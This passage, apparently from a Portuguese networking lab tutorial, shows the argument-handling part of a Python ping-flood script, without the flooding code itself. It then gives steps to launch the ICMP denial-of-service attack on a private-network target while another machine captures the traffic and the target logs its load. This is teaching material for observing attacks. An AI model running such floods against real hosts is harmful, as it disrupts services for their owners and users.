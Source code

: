 ```python

if __name__ == "__main__":
    if len(sys.argv) < 2:
        print("Uso: sudo python3 ping_flood.py <ip_alvo> [duração_em_segundos]")
        print("Exemplo: sudo python3 ping_flood.py 192.168.1.100 30")
        sys.exit(1)
    
    target_ip_address = sys.argv[1]
    duration = 30  # Duração padrão: 30 segundos
    
    if len(sys.argv) >= 3:
        try:
            duration = int(sys.argv[2])
            if duration <= 0:
                raise ValueError("A duração deve ser um número positivo")
        except ValueError as e:
            print(f"[!] Erro: {e}")
            sys.exit(1)
    
    main(target_ip_address, duration)
```

### 2.2. Execução do Ataque DoS

1. **No computador monitor**, inicie a captura de pacotes:
   ```bash
   # Capture o tráfego em um arquivo para análise posterior
   sudo tcpdump -i eth0 -w dos_attack.pcap host 192.168.1.100
   
   # Ou use Wireshark com interface gráfica
   sudo wireshark
   ```

2. **No computador alvo**, monitore a carga do sistema:
   ```bash
   # Em um terminal
   watch -n 1 "netstat -an | grep ESTABLISHED | wc -l"
   
   # Em outro terminal
   htop
   ```

3. **Em um computador atacante**, execute o script:
   ```bash
   # Torne o script executável
   chmod +x ping_flood.py
   
   # Execute o ataque por 30 segundos
   sudo python3 ping_flood.py 192.168.1.100 30
   ```

4. **Observe os resultados**:
   - No computador alvo, verifique o aumento de carga na CPU e rede
   - No computador monitor, observe o tráfego ICMP intenso
